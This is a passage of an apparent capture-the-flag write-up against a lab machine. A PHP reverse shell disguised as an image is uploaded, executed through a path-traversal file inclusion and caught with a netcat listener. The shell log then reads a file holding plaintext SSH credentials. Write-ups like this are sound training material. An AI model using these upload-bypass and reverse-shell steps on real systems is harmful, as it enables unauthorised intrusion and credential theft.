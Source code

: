 <p><code>.jpg</code> or <code>.png</code></p>

![image](https://github.com/user-attachments/assets/ffe6cdf6-aa8f-4553-9324-68cf8757e4b7)

![image](https://github.com/user-attachments/assets/8256161d-d968-42ae-a870-8d080b04cad8)

![image](https://github.com/user-attachments/assets/b38d1593-7421-45ff-ac4e-66b233941a86)

<h3>Reverse Shell</h3>

https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/refs/heads/master/php-reverse-shell.php

<h3>Listener</h3>

```bash
:~# nc -nlvp 4444
Listening on 0.0.0.0 4444
```

<h3>Browse and upload</h3>

![image](https://github.com/user-attachments/assets/aa5a9aa5-f58d-4139-9845-4379a4e4370e)

![image](https://github.com/user-attachments/assets/131791bd-03ae-4a08-a2ef-50e02d0e73fe)

![image](https://github.com/user-attachments/assets/2918a054-4cb4-4b87-956d-cf105c66dc46)


<h3>http://10.10.41.181:1337/upload-cv00101011//upload_thm_1001/rev.php.jpg</h3>

![image](https://github.com/user-attachments/assets/4a356171-2b7e-4ab6-bd6c-389aad3a410a)

<h3>http://10.10.41.181:1337/file1010111/index.php?file=../upload-cv00101011/upload_thm_1001/rev.php.png</h3>

![image](https://github.com/user-attachments/assets/ba99d185-85ad-482b-99c3-1b2a6eca6253)

<h3>Shell</h3>

```bash
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
$ pwd
/
$ cd /home/zeamkish
$ ls
flag.txt
ssh_creds.txt
$ python3 -c 'import pty;pty.spawn("/bin/bash")'
www-data@ip-10-10-41-181:/home/zeamkish$ ^Z
[1]+  Stopped                 nc -nlvp 4444
:~# stty raw -echo; fg
nc -nlvp 4444
www-data@ip-10-10-41-181:/home/zeamkish$ cat flag.txt
cat: flag.txt: Permission denied
www-data@ip-10-10-41-181:/home/zeamkish$ cat ssh_creds.txt
SSH CREDS
zeamkish
easytohack@123
www-data@ip-10-10-41-181:/home/zeamkish$
```
